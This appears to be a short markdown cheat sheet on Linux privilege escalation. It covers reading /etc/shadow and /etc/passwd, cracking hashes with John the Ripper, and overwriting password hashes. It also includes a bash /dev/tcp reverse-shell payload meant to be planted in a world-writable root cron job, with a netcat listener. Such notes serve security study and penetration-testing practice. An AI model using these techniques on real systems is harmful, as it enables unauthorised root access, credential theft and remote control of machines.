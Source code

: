 # Privileges Escalation - Linux

## Sensitive files
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.
  <img src="../imgs/shadow.png" alt="shadowImg" />

  That complex string between the first and second `:` is the hashed password of user "diego".

  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - **UPDATE:** probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.
<br><br>

- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before. <br>
  <img src="../imgs/passwd.png" alt="passwdImg" />

  That `x` means that any hash is set for user "diego."<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.



  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing the `x`.
<br><br>

- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.
  <img src="../imgs/sudoers.png" alt="sudoersImg" />
  <br><br>

- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).
<img src="../imgs/crontab.png" alt="crontab">

  Example of cron jobs scheduled to run **as root** every minute:
  <img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">

  - If one of these cron jobs are world-writable and you're **not** a root user, it's possible to modify and exploit them, for example with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run
